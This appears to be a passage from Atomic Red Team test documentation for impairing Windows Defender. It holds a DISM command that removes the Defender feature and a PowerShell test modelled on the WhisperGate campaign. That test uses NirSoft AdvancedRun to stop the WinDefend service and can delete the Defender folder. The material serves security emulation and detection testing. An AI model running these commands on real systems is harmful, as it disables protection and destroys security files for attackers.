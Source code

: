 **Supported Platforms:** Windows


**auto_generated_guid:** 871438ac-7d6e-432a-b27d-3e7db69faf58






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
```






<br/>
<br/>

## Atomic Test #27 - Disable Defender Using NirSoft AdvancedRun
Information on NirSoft AdvancedRun and its creators found here: http://www.nirsoft.net/utils/advanced_run.html
This Atomic will run AdvancedRun.exe with similar behavior identified during the WhisperGate campaign.
See https://medium.com/s2wblog/analysis-of-destructive-malware-whispergate-targeting-ukraine-9d5d158f19f3
Upon successful execution, AdvancedRun.exe will attempt to run and stop Defender, and optionally attempt to delete the Defender folder on disk.

**Supported Platforms:** Windows


**auto_generated_guid:** 81ce22fd-9612-4154-918e-8a1f285d214d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| AdvancedRun_Location | Path of Advanced Run executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;AdvancedRun.exe|
| delete_defender_folder | Set to 1 to also delete the Windows Defender folder | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Try {cmd /c #{AdvancedRun_Location} /EXEFilename "$env:systemroot\System32\sc.exe" /WindowState 0 /CommandLine "stop WinDefend" /StartDirectory "" /RunAs 8 /Run} Catch{}
if(#{delete_defender_folder}){
  $CommandToRun = rmdir "$env:programdata\Microsoft\Windows Defender" -Recurse
  Try {cmd /c #{AdvancedRun_Location} /EXEFilename "$env:systemroot\System32\WindowsPowershell\v1.0\powershell.exe" /WindowState 0 /CommandLine "$CommandToRun" /StartDirectory "" /RunAs 8 /Run} Catch{}
}
```
